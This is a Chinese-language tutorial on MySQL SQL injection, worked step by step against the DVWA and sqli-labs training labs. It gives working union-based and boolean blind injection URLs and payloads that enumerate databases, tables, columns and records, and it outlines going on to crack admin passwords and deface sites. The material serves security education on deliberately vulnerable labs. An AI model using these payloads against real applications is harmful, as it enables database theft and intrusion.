







# SQL注入前言

* 前置知识
  * `Information_schema`数据库
  * `SQL`查询语法
* 靶场
  * `DVWA`
  * `sql-labs`
* 插件
  * `hackbar`
* 软件
  * `BurpSuite2024`

# Information_schema库

MySQL5.0以上，Mysql自带了Information_schema这个数据库，5.0以下是没有的。在MySQL中，把information_schema看作是一个数据库，确切说是信息数据库。其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权限等。

* **SCHEMATA表**：提供了当前`mysql`实例中所有数据库的信息。是`show databases`的结果取之此表。
  
  * **`SCHEMA_NAME`						 **
  
    ​													**——该字段保存了所有的数据库名**
* **TABLES表**：提供了关于数据库中的表的信息（包括视图）。详细表述了某个表属于哪个schema，表类型，表引擎，创建时间等信息。是`show tables from schemaname`的结果取之此表。
  * **`TABLE_NAME`							**
  
    ​													**——该字段保存了所有的表名**
  
  * **`TABLE_SCHEMA`		            	**
  
    ​													**——该字段保存了该表来自哪个数据库**
* **COLUMNS表**：提供了表中的列信息。详细表述了某张表的所有列以及每个列的信息。是`show columns from schemaname.tablename`的结果取之此表。
  
  * **`COLUMN_NAME`						**
  
    ​													**——该字段保存了所有的字段名**
  
  * **`TABLE_NAME`						   **
  
    ​													**——该字段保存了该字段来自哪个数据表**
  
  * **`TABLE_SCHEMA`						**
  
    ​													**——该字段保存了该字段来自哪个数据库**
* STATISTICS表：提供了关于表索引的信息。是`show index from schemaname.tablename`的结果取之此表。
* USER_PRIVILEGES（用户权限）表：给出了关于全程权限的信息。该信息源自`mysql.user`授权表。是非标准表。
* SCHEMA_PRIVILEGES（方案权限）表：给出了关于方案（数据库）权限的信息。该信息来自`mysql.db`授权表。是非标准表。
* TABLE_PRIVILEGES（表权限）表：给出了关于表权限的信息。该信息源自`mysql.tables_priv`授权表。是非标准表。
* COLUMN_PRIVILEGES（列权限）表：给出了关于列权限的信息。该信息源自`mysql.columns_priv`授权表。是非标准表。
* CHARACTER_SETS（字符集）表：提供了`mysql`实例可用字符集的信息。是`SHOW CHARACTER SET`结果集取之此表。
* COLLATIONS表：提供了关于各字符集的对照信息。
* COLLATION_CHARACTER_SET_APPLICABILITY表：指明了可用于校对的字符集。这些列等效于`SHOW COLLATION`的前两个显示字段。
* TABLE_CONSTRAINTS表：描述了存在约束的表。以及表的约束类型。
* KEY_COLUMN_USAGE表：描述了具有约束的键列。
* ROUTINES表：提供了关于存储子程序（存储程序和函数）的信息。此时，ROUTINES表不包含自定义函数（UDF）。名为`mysql.procname`的列指明了对应于`INFORMATION_SCHEMA.ROUTINES`表的`mysql.proc`表列。
* VIEWS表：给出了关于数据库中的视图的信息。需要有`show views`权限，否则无法查看视图信息。
* TRIGGERS表：提供了关于触发程序的信息。必须有`super`权限才能查看该表

# 开启MySQL日志功能

为更方便理解sql注入，建议开启MySQL日志记录功能。开启后，会记录后端程序所执行的SQL语句。

开启方法：打开my.ini文件（和data文件夹同一个目录。如果是使用phpstudy的，可以通过phpstudy直接打开）

打开后再[mysqld]下增加两行,"general_log_file"的值修改为你的data文件夹路径

```
general_log = 1
general_log_file = "D:/phpStudy1/PHPTutorial/MySQL/data/mysql.log"
```

如图：


然后打开日志文件，就可以看到后端程序所执行的SQL语句了。


# ASCII码

为方便查询，故在此处放置一张ASCII码表。


# SQL注入

SQL是操作数据库数据的结构化查询语言，网页的应用数据和后台数据库中的数据进行交互时会采用SQL。而SQL注入是将Web页面的原URL、表单域或数据包输入的参数，修改拼接成SQL语句，传递给Web服务器，进而传给数据库服务器以执行数据库命令。如Web应用程序的开发人员对用户所输入的数据或cookie等内容不进行过滤或验证(即存在注入点)就直接传输给数据库，就可能导致拼接的SQL被执行，获取对数据库的信息以及提权，发生SQL注入攻击，它目前是黑客对数据库进行攻击的最常用手段之一。

## 危害

攻击者通过SQL注入获取到服务器的库名、表名、字段名，从而获取到整个服务器中的数据，对网站用户的数据安全有极大的威胁。攻击者也可以通过获取到的数据，得到后台管理员的密码，然后对网页页面进行恶意篡改。这样不仅对数据库信息安全造成严重威胁，对整个数据库系统安全也影响重大。

## 原理

SQL注入攻击是通过操作输入来修改SQL语句，用以达到执行代码对WEB服务器进行攻击的方法。简单的说就是在post/get表单或页面请求的查询字符串中插入SQL语句，最终使web服务器执行恶意命令的过程。

## 分类

* **按注入位置分类**

  * GET注入
  * POST注入
  * Head头注入

* **按结果反馈分类**

  * 有回显注入（显错注入）
  * 无回显注入（盲注）

* **按数据类型分类**

  * 字符型注入：当输入参数为字符串时，称为字符型。

    字符型：'柯基'	'C0rgi'	'1'

  * 数字型注入：当输入的参数为整型时，如ID、年龄、页码等，如果存在注入漏洞，则可以认为是数字型注入。

    数字型只有：0	1	2	3	4	5	6	7	8	9

  数字型与字符型注入最大的区别在于：数字型不需要单引号闭合，而字符串类型一般要使用单引号来闭合。

## 过程

1. SQL注入点探测。探测SQL注入点是关键的一步，通过适当的分析应用程序，可以判断什么地方存在SQL注入点。通常只要带有输入提交的动态网页，并且动态网页访问数据库，就可能存在SQL注入漏洞。如果程序员信息安全意识不强，采用动态构造SQL语句访问数据库，并且对用户的输入未进行有效性验证，则存在SQL注入漏洞的可能性很大。一般通过页面的报错信息来确定是否存在SQL注入漏洞。
2. 收集后台数据库信息。不同数据库的注入方法、函数都不尽相同，因此在注入之前，我们先要判断一下数据库的类型。判断数据库类型的方法很多，可以输入特殊字符，如单引号，让程序返回错误信息，我们根据错误信息提示进行判断；还可以使用特定函数来判断，比如输入`selectversion()`，程序返回正常，说明`version()`函数被数据库识别并执行，而`version()`函数是MySQL特有的函数，因此可以推断后台数据库为MySQL。
3. 猜解用户名和密码。数据库中的表和字段命名一般都是有规律的。通过构造特殊SQL语句在数据库中依次猜解出表名、字段名、字段数、用户名和密码。
4. 查找Web后台管理入口。WEB后台管理通常不对普通用户开放，要找到后台管理的登录网址，可以利用Web目录扫描工具（如：`wwwscan`、`AWVS`）快速搜索到可能的登录地址，然后逐一尝试，便可以找到后台管理平台的登录网址。
5. 入侵和破坏。一般后台管理具有较高权限和较多的功能，使用前面已破译的用户名、密码成功登录后台管理平台后，就可以任意进行破坏，比如上传木马、篡改网页、修改和窃取信息等，还可以进一步提权，入侵Web服务器和数据库服务器。

## MySQL联合查询注入流程

### 判断是否存在注入点

一般利用英文**单引号(')**或者**双引号（"）**来判断是否存在漏洞，如果出现SQL语句错误说明有很大的可能会存在漏洞。

能会存在漏洞。 比如某网站的URL为http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#，此时URL实际向服务器传递了值为1的变量id，后端向数据库获取数据的SQL语句为：

```
SELECT first_name, last_name FROM users WHERE user_id = '1';
```


此时服务器就会从users表中把满足user_id=1这个条件的行（记录）的first_name, last_name查询出来。

在网站里显示为：



当输入单引号（'）的时候http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=1'&Submit=Submit#，SQL语句就变为了

```
SELECT first_name, last_name FROM users WHERE user_id = '1'';
```

可以看到多了一个单引号，因为单引号不匹配，就会报错，并且看到报错信息。

如果能引起数据库的报错，说明用户是可以对查询语句进行修改的，说明存在漏洞。


### 判断注入类型

判断注入类型是数字型还是字符型，这涉及到在注入的过程中是否需要添加单引号，可以使用：

#### 法一：and

and 逻辑与，当条件表达式两边都为真才是真，有一边为假则是假

* 1 and 1=1 
* 1 and 1=2 

进行判断，如果输入“1 and 1=1”和“1 and 1=2”页面的查询结果都返回相同的内容，说明不是数字型注入。既然不是数字型，那就有很大的可能是字符型注入了。 

如果是字符型则需要对单引号（'）进行闭合，因为MySQL中的引号都是成双成对出现的。 

> 思考：为什么从以上方法中可以判断出注入的类型呢？ 

首先回到数字型注入和字符型注入的定义，当用户输入上方的判断语句时，如果是数字型注入，则 SQL语句变成了 

```
SELECT first_name, last_name FROM users WHERE user_id = 1 and 1=1; 
SELECT first_name, last_name FROM users WHERE user_id = 1 and 1=2; 
```

如果是字符型注入，则变成了

```
SELECT first_name, last_name FROM users WHERE user_id = '1 and 1=1'; 
SELECT first_name, last_name FROM users WHERE user_id = '1 and 1=2'; 
```

数据库会把用户输入的内容当成了一体进行查询，将以上四条语句拿到数据库里执行，可以看到前两条语句会返回不一样的内容，后两条语句会返回相同的内容。 


> 思考：为什么后两条语句同样是用and，但是输出的内容是相同的？ 

这个涉及到了MySQL的隐式类型转换，简单来说就是 

```
'2admin'	 ==>	2
'admin'		 ==>	0 
'33admin'	 ==>	33
’33admin45a‘ ==>	33
’1+1‘		 ==>	1
```

所以就是两条语句都通过转换变为了1。

#### 法二：1asdf

仍以某网站为例，当URL为http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=1asdf&Submit=Submit#，后端执行的SQL语句可能为以下两个SQL语句中的其中一个

```
SELECT first_name, last_name FROM users WHERE user_id = 1asdf; 							——————数字型
SELECT first_name, last_name FROM users WHERE user_id = '1asdf'; 						——————字符型
```

* 有报错则为数字型，数字型仅有0-9的数字，无法识别
* 无报错则为字符型，输出结果一致的情况请参考隐式类型转换。

#### 法三：1+1

* `%2b`是`+`的URL编码

仍以某网站为例，当URL为http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=1%2b1&Submit=Submit#，后端实际执行的SQL语句可能为以下两个SQL语句中的其中一个

```
SELECT first_name, last_name FROM users WHERE user_id = 1+1; 							——————数字型
<=>SELECT first_name, last_name FROM users WHERE user_id = 2;

SELECT first_name, last_name FROM users WHERE user_id = '1+1'; 							——————字符型
<=>SELECT first_name, last_name FROM users WHERE user_id = 1;
```

当`1+1`和`1`的执行结果一致的时候是字符型，不一致则为数字型

### 通过报错判断闭合方式

* 单行注释

  * `-- `  注意后面要留一个空格

  * `#`

    %23

### 判断列数

* `order by`

  特性：当`order by`的数字大于当前的列数时候就会报错，SQL注入则利用这个特性来判断列数。

仍然以某网站为例，当`order by 2`时，后端程序执行的SQL语句为：

```
SELECT first_name, last_name FROM users WHERE user_id = '1' order by 2#';
```

回显正常：


当`order by 3`时，后端程序执行的SQL语句为：

```
SELECT first_name, last_name FROM users WHERE user_id = '1' order by 3#';
```

发生了报错：


* 图中URL的%23为井号（#）进行了url编码，是为了将SQL语句中多余的单引号注释掉，GET型注入可以使用`#`号的URL编码`%23`或者`--+`进行注释。
* `%20`是空格的URL编码

### 确定显示位

在一个网站的正常页面，服务端执行SQL语句查询数据库中的数据，客户端将数据展示在页面中，这个展示数据的位置就叫显示位。

* `union`

  用于合并两个或多个 `SELECT `语句的结果集，`UNION` 结果集中的列名总是等于` UNION `中第一个` SELECT `语句中的列名，并且`UNION `内部的 `SELECT `语句必须拥有相同数量的列。列也必须拥有相似的数据类型。同时，每条`SELECT `语句中的列的顺序必须相同。

仍然以某网站为例，试一下`union select 1,2`，后端执行的SQL语句为：

```
SELECT first_name, last_name FROM users WHERE user_id = '1' union select 1,2#';
```

网站回显为：



但是在实战中一般不查询`union`左边的内容，一是因为程序在展示数据的时候通常只会取结果集的第一行数据，二是因为`union`左边查询出来的内容对我们基本没用。所以，只要让第一行查询的结果是空集，即`union`左边的`select`子句查询结果为空，那么`union `右边的查询结果自然就成为了第一行，打印在网页上了。所以让`union`左边查询不到，可以将其改为负数或者改为比较大的数字。

### 获取数据

####  获取数据库名、数据库版本

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27%20union%20select%20database(),version()%23&Submit=Submit#

SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1' union select database(),version()#';
```

网站回显


#### 获取数据库中的表名

* `group_concat`

  ```
  GROUP_CONCAT(
  			[DISTINCT] expr [,expr ...]             
  			[
  			ORDER BY {unsigned_integer | col_name | expr}                 
  				[ASC | DESC] [,col_name ...]
  			]             
  			[SEPARATOR *str_val*]
  			)
  ```

  将多行数据按照指定的顺序连接成一个字符串，默认以逗号分隔。

方法一：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,table_name%20from%20Information_schema.tables%20where%20table_schema%20=%20database()%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,table_name from Information_schema.tables where table_schema = database()#';
```

一个表名为一个回显



方法二：

有时候回显只会显示第一行，所以就需要将表名拼接成一个字符串，URL和SQL语句如下：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,group_concat(table_name)%20from%20Information_schema.tables%20where%20table_schema%20=%20database()%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,group_concat(table_name) from Information_schema.tables where table_schema = database()#';
```



方法三：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,(select%20group_concat(table_name)%20from%20Information_schema.tables%20where%20table_schema%20=%20database())%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,(select group_concat(table_name) from Information_schema.tables where table_schema = database())#';
```



#### 获取数据库中某个表的字段

方法同获取表名一样，例子如下：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,group_concat(column_name)%20from%20Information_schema.columns%20where%20table_schema=%27dvwa%27%20and%20table_name=%27users%27%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,group_concat(column_name) from Information_schema.columns where table_schema='dvwa' and table_name='users'#';
```



#### 获取数据库中某个表中的记录

方法同获取表名一样，例子如下：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,group_concat(user)%20from%20dvwa.users%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,group_concat(user) from dvwa.users#';
```



# 盲注

盲注就是在SQL注入过程中，SQL语句执行后，查询到的数据不能回显到前端页面。此时，我们需要利用一些方法进行判断或者尝试，这个过程称之为盲注。通俗的讲就是在前端页面没有显示位，不能返回sql语句执行错误的信息，输入正确和错误返回的信息都是一致的，这时候我们就需要使用页面的正常与不正常显示来进行sql注入。

类似于无法开口说话的人，只能通过点头和摇头来告诉你答案的正确与否。

## 布尔盲注

在页面中，如果正确执行了用户构造的 SQL 语句，则返回一种页面，如果 SQL 语句执行错误，则执行另一种页面。基于两种页面，来判断 SQL 语句正确与否，达到获取数据的目的。

### 注入过程

* 判断是否存在注入
* 获取数据库长度
* 逐字猜解数据库名
* 猜解表名数量
* 猜解某个表名长度
* 逐字猜解表名
* 猜解列名数量
* 猜解某个列名长度
* 逐字猜解列名
* 判断数据数量
* 猜解某条数据长度
* 逐位猜解数据

### 判断是否存在注入

* 法一：and

  利用语句`1 and 1=1`和`1 and 1=2`以及`1' and 1=1%23`和`1' and 1=2%23`进行判断。如果输入`1 and 1=1`和`1 and 1=2`页面返回不一样，则说明是数字型盲注；如果输入`1' and 1=1%23`和`1' and 1=2%23`页面返回不一样，则说明是字符型盲注。

* 法二：1asdf

  如果输入`1asdf`和`1 `页面返回不一样，则说明是数字型盲注，反之则为字符型盲注。

### 获取数据库名长度

* length() 是一个用来获取字符串长度的内置函数。

  单位是字节，utf8编码下,一个汉字三个字节，一个数字或字母一个字节。

  ​						gbk编码下,一个汉字两个字节，一个数字或字母一个字节。 

* char_length()：单位为字符，不管汉字还是数字或者是字母都算是一个字符。

因为无法通过页面数据回显获取数据，所以只能靠判断对错的方式来获取数据，可以使用MySQL中内置的length()函数获取长度。

* 先使用`<`或`>`确定一个大致的范围，并逐步缩小范围，最后使用`=`确定数据库名的长度

实战中应采取**爆破**方式，但此处为了让各位能更好的理解，故给出一个手工测的例子。例子如下：

先测试大于5

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length(database())%3E5%23
SQL:
SELECT * FROM users WHERE id='1' and length(database())>5#' LIMIT 0,1;
;
```

> 可能会有人有疑问，这个`SQL`后面下面怎么有个分号单列一行，这是因为上一行后面有一个`#`。`#`号会把后面的内容全部注释掉，执行的时候会忽略掉后面的内容，但`SQL`语句是以分号结尾的，所以在第二行单列了一个分号。
>
> 后续凡是涉及到该靶场均存在此问题，便不再重复赘述。

网站有返回


再测试小于10

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length(database())%3C10%23
SQL:
SELECT * FROM users WHERE id='1' and length(database())<10#' LIMIT 0,1;
;
```

网站有返回


然后测试小于8

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length(database())%3C8%23
SQL:
SELECT * FROM users WHERE id='1' and length(database())<8#' LIMIT 0,1;
;
```

网站无返回


再测试8

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length(database())=8%23
SQL:
SELECT * FROM users WHERE id='1' and length(database())=8#' LIMIT 0,1;
;
```

网站有返回，确定长度为8。


### 获取数据库名

由于没有回显，所以无法像`union`联合查询那样可以一下子把数据库名给爆出来，只能通过`substr`函数以截取字符串的方式进行获取。

* `substr(string, start, length) `

  `substr`截取字符串，`string`是要截取的字符串，`start`是从哪个位置开始，`length` 是截取的长度

  注意，该函数有3个参数并且mysql中的`start`从1开始的。
  
* 数据库命名规则

  采用26个英文字母（**区分大小写**）和0-9的自然数(经常不需要)，加上下划线`_`组成，命名简洁明确，多个单词用下划线`_`分隔。

接下来就是一个一个的进行截取，直到截取到最后一位为止。

下面以截取第一位为例：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20substr(database(),1,1)=%27s%27%23
SQL:
SELECT * FROM users WHERE id='1' and substr(database(),1,1)='s'#' LIMIT 0,1;
;
```

网站的反应为：


但是这样一个一个的尝试太麻烦了，耗时也多。

所以通过将猜测的内容转换为ASCII码，然后使用`ascii()`函数。4位ASCII码对照表见下：


下面同样以截取第一位为例：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20ascii(substr(database(),1,1))=115%23
SQL:
SELECT * FROM users WHERE id='1' and ascii(substr(database(),1,1))=115#' LIMIT 0,1;
;
```

网站的反应为：


使用此方法就可以直接通过`Burpsuite`爆破出数据库名。

为了避免有些人不按照命名规则命名，可以对ASCII码值33到126进行遍历枚举。


成功爆破出数据库库名`security`：

```
115		101		99		117		114		105		116		121
s		e		c		u		r		i		t		y
```


### 获取表名

#### 获取表的数量

* `count()`

  统计数据表中包含的记录行的总数，或者根据查询结果返回列中包含的数据行。

由于无法看到有多少个表，为了避免无效查询，所以可以先获取表的数量，可以使用count()函数进行获取。

方法同获取数据库名长度，直接进行爆破，例子如下

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20(select%20count(table_name)%20from%20Information_schema.tables%20where%20table_schema%20=%20%27security%27)=4%23
SQL:
SELECT * FROM users WHERE id='1' and (select count(table_name) from Information_schema.tables where table_schema = 'security')=4#' LIMIT 0,1;
;
```


#### 获取表名长度

* `limit`

  用于强制返回指定的记录行数，语法如下

  ```
  select * from table_name limit [offset，] rows
  offset：指定第一个返回记录行的偏移量（即从哪一行开始返回），注意：初始行的偏移量为0。
  rows：返回行数的数量。
  ```

方法同获取数据库名长度，但是由于表名可能不止一个。当表名为多个的时候，直接将下面的`SQL`语句拿到数据库中运行将会报错。

```
SELECT * FROM users WHERE id='1' and length((select table_name from Information_schema.tables where table_schema = database()))=1#' LIMIT 0,1;
;
```


> `length((select table_name from Information_schema.tables where table_schema = database()))`此处的括号并没有多敲，`length()`自带一个括号，`select`的结果也需要一个括号。去掉一层括号，数据库将会报错。~~（不去掉括号也会报错）~~

所以此处需要用到`limit`来控制行数，然后再一一爆破。

> 之所以不用`group_concat`是为了防止有些人不讲武德，在表名里也用除下划线以外的符号，比如`,`

下面以第一个表为例：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length((select%20table_name%20from%20Information_schema.tables%20where%20table_schema%20=%20database()%20limit%200,1))=6%23
SQL:
SELECT * FROM users WHERE id='1' and length((select table_name from Information_schema.tables where table_schema = database() limit 0,1))=6#' LIMIT 0,1
;
```


#### 获取表名

方法同获取数据库名一样，截取字符串，转化为比较ASCII码，通过`BurpSuite`爆破得到表名。

下面为第一个表的第一位的URL及后端执行的SQL语句：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20ascii(substr((select%20table_name%20from%20Information_schema.tables%20where%20table_schema%20=%20database()%20limit%200,1),1,1))=101%23
SQL:
SELECT * FROM users WHERE id='1' and ascii(substr((select table_name from Information_schema.tables where table_schema = database() limit 0,1),1,1))=101#' LIMIT 0,1
;
```

爆破第一个表的表名结果：`emails`

```
101		109		97		105		108		115
e		m		a		i		l		s
```


### 获取列名

#### 获取表中列数

同获取数据库中表的数量方法一样，此处便不再赘述，直接给出例子：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20(select%20count(column_name)%20from%20Information_schema.columns%20where%20table_name%20=%20%27emails%27%20and%20table_schema=database())=2%23
SQL:
SELECT * FROM users WHERE id='1' and (select count(column_name) from Information_schema.columns where table_name = 'emails' and table_schema=database())=2#' LIMIT 0,1
;
```


#### 获取列名长度

同获取数据库中表名长度方法一样，此处便不再赘述，直接给出例子：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length((select%20column_name%20from%20Information_schema.columns%20where%20table_name%20=%20%27emails%27%20and%20table_schema=database()%20limit%200,1))=2%23
SQL:
SELECT * FROM users WHERE id='1' and length((select column_name from Information_schema.columns where table_name = 'emails' and table_schema=database() limit 0,1))=2#' LIMIT 0,1
;
```


#### 获取列名

同获取数据库中表名方法一样，此处便不再赘述，直接给出例子：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20ascii(substr((select%20column_name%20from%20Information_schema.columns%20where%20table_name%20=%20%27emails%27%20and%20table_schema=database()%20limit%200,1),1,1))=105%23
SQL:
SELECT * FROM users WHERE id='1' and ascii(substr((select column_name from Information_schema.columns where table_name = 'emails' and table_schema=database() limit 0,1),1,1))=105#' LIMIT 0,1
;
```

第一个列名为：`id`

```
105		100
i		d
```


